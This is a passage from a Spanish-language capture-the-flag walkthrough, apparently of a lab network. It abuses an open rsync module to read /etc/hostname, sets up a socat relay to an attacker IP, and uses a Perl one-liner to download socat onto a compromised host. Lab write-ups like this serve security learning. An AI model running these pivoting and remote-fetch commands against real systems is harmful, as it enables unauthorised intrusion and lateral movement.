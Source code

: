```abap
drwxr-xr-x          4,096 2021/09/22 01:22:01 rdb
drwx------          4,096 2018/07/15 17:42:38 root
drwxr-xr-x          4,096 2021/09/21 23:50:29 run
drwxr-xr-x          4,096 2018/07/15 17:42:38 sbin
drwxr-xr-x          4,096 2018/07/15 17:42:38 srv
dr-xr-xr-x              0 2021/09/21 23:50:29 sys
drwxrwxrwt          4,096 2021/09/22 01:48:01 tmp
drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
drwxr-xr-x          4,096 2018/07/15 17:42:39 var
```

### Si le podemos un punto al final de la consulta nos copiamos el archivo que pongamos en la ruta, para este ejemplo me voy a copiar el archivo del hostname que se encuentra en /etc/hostname y así confirmamos el nombre de la máquina

```abap
bash-4.3# rsync rsync://backup:873/src/etc/hostname .
bash-4.3# ls
backup.sh  hostname
bash-4.3# cat hostname 
backup
```

### Ahora vamos a tratar de descargarnos el socat a esta máquina, así que debemos realizar un port forwarding entre estas máquinas y la nuestra de atacante y vamos a crear en la máquina nodered que todo lo que llegue en el puerto 3333 lo dirija a nuestra máquina atacante por el puerto 8083 y en nuestra máquina atacante vamos a crear un servicio con python

```abap
root@nodered:/tmp# ./socat TCP-LISTEN:3333,fork tcp:10.10.14.118:8083 &
[2] 85
root@nodered:/tmp#

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌─[root@parrot]─[/mnt/angussMoody/Scripts/Static/linux]
└──╼ #python3 -m http.server 8083
Serving HTTP on 0.0.0.0 port 8083 (http://0.0.0.0:8083/) ...

```

### Y ahora en la máquina www como vemos que tiene perl, vamos a tratar de descargarnos el socat de nuestra máquina de atacante

```abap
www-data@www:/tmp$ which perl
/usr/bin/perl
www-data@www:/tmp$ perl -e 'use File::Fetch; my $url = "http://172.19.0.4:3333/socat"; my $ff = File::Fetch->new(uri=>$url); my $file = $ff->fetch() or die $ff->eror'
```
